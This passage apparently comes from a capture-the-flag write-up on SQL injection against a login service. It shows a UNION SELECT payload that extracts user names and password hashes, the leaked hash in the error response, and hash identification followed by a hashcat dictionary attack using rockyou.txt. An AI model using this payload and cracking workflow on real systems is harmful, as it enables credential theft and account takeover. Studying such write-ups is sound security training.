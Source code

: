 With some experimentation, I figured out that there was a table called `users` with at least two columns named `name` and `password`.

```
' UNION SELECT name, 2, 3, password From users Limit 0, 1  -- - 

{"error":"The password for Aaliyah Allen is incorrect! c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab"}
```

I wanted to dump all the users, but playing with limit clauses showed me that there was 40 users in the database. Extracting them one by one would be long and boring so I decided that I needed to write a small script to do it. 

But before writing the script, I launched hashcat to try to crack the passwords I already had. 

```bash
$ haiti 2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b  
SHA-512 [HC: 1700] [JtR: raw-sha512]
SHA3-512 [HC: 17600] [JtR: raw-sha3]
SHA3-512 [HC: 17600] [JtR: dynamic_400]
Keccak-512 [HC: 18000] [JtR: raw-keccak]
BLAKE2-512 [JtR: raw-blake2]
Whirlpool [HC: 6100] [JtR: whirlpool]
Salsa10
Salsa20
Skein-512 [JtR: skein-512]
Skein-1024(512)

$ hashcat -a 0 -m 1700 hash.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8565U CPU @ 1.80GHz, 1423/1487 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 6 digests; 6 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
